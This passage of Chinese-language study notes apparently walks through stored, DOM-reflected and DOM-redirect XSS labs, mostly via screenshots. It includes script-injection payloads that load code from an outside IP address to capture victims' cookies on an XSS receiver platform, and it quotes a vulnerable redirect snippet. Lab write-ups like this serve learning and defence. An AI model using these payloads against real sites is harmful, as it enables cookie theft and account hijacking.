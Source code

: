 ![image-20240122205516761](E:\学习资料\网安\笔记\笔记截图\image-20240122205516761.png)

![image-20240122211439439](E:\学习资料\网安\笔记\笔记截图\image-20240122211439439.png)

返回到我们的平台处查下看信息发现返回得到cookie值

![image-20240122213255744](E:\学习资料\网安\笔记\笔记截图\image-20240122213255744.png)

**存储型**

打开之后和上面的一样现插入恶意代码，会传入服务器并保存

![image-20240122214053407](E:\学习资料\网安\笔记\笔记截图\image-20240122214053407.png)

![image-20240122215245644](E:\学习资料\网安\笔记\笔记截图\image-20240122215245644.png)

回到我们平台查看返回信息

![image-20240122215636531](E:\学习资料\网安\笔记\笔记截图\image-20240122215636531.png)

**DOM反射**

开启环境我们发现第一个输入框里面有东西，打开源码看看，发现第一个的位置是我们可控的，找到第一个框框的源码

![image-20240122220636401](E:\学习资料\网安\笔记\笔记截图\image-20240122220636401.png)

![image-20240122220744247](E:\学习资料\网安\笔记\笔记截图\image-20240122220744247.png)

根据`</textarea>'"><script src=http://121.43.174.46/3qnfdu?1705932590></script>`构造上面源码闭合的条件，//是单行注释，去掉`</textarea>'">`不影响结果传入第一个框提交查看源码

```
';</script><script src=http://121.43.174.46/3qnfdu?1705932590>//
```

![image-20240122221822941](E:\学习资料\网安\笔记\笔记截图\image-20240122221822941.png)

把url复制到第二个框里面提交，回到平台查看信息

![image-20240122222126592](E:\学习资料\网安\笔记\笔记截图\image-20240122222126592.png)

**DOM跳转**

进入网站查看源代码发现xss漏洞

```js
<script>
        var target = location.search.split("=")
        if (target[0].slice(1) == "jumpto") {
            location.href = target[1];
        }
</script>
```

这段代码的作用是从当前页面的URL中获取查询字符串（URL的get参数），如果参数名为"jumpto"，则将页面重定向到参数值所指定的URL。
